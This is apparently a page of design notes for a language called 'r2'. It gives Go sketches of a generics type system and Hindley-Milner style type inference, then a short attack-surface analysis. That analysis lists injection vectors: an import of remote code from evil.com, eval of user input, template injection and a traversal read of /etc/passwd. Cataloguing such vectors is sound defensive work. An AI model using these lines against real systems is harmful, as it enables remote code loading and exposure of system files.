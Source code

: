 ### Generics Type System

#### Type Variables and Constraints
```go
type TypeVariable struct {
    Name        string
    Constraints []TypeConstraint
}

type TypeConstraint interface {
    Satisfies(Type) bool
}

type GenericFunction struct {
    TypeParams []TypeVariable
    Params     []Type
    ReturnType Type
    Body       Node
}
```

#### Type Inference Algorithm
```go
// Simplified Hindley-Milner type inference
func InferType(expr Node, env *TypeEnvironment) (Type, error) {
    switch e := expr.(type) {
    case *NumberLiteral:
        return NumberType{}, nil
    case *Identifier:
        if t, ok := env.Get(e.Name); ok {
            return t, nil
        }
        return nil, UndefinedVariableError{e.Name}
    case *CallExpression:
        fnType, err := InferType(e.Callee, env)
        if err != nil {
            return nil, err
        }
        // Unify function type with argument types
        return UnifyFunctionCall(fnType, e.Args, env)
    // ... more cases
    }
}
```

## Security Analysis Profundo

### Attack Surface Analysis

#### Code Injection Vectors
```r2
// 1. Import-based injection
import "http://evil.com/malicious.r2" as evil

// 2. Eval-based injection (if implemented)
eval(userInput)  // Classic injection

// 3. Template injection
template(`Hello ${userInput}`)  // If template literals added

// 4. Filesystem traversal
io.readFile("../../../etc/passwd")
```
